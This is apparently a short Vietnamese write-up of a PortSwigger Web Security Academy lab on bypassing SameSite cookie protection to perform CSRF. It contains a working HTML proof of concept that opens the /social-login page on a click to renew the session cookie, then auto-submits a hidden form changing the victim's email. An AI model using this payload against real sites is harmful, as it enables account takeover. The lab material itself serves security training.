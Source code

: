 ![image-20250604010402269](./image/image-20250604010402269.png)

Cookie ở 2 lần đăng nhập là khác nhau: mặc dù truy cập vào url /social-login khi vẫn đang duy trì trạng thái đăng nhập. 

**Steps:** 

Gen POC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aec0075044e81a7819aca7600ed00a1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;test&#46;com2" />
      <input type="submit" value="Submit request" />
    </form>
      
      <!--bypass pop up-->
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0aec0075044e81a7819aca7600ed00a1.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
        <!--wait for the OAuth flow-->
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
      
  </body>
</html>

```
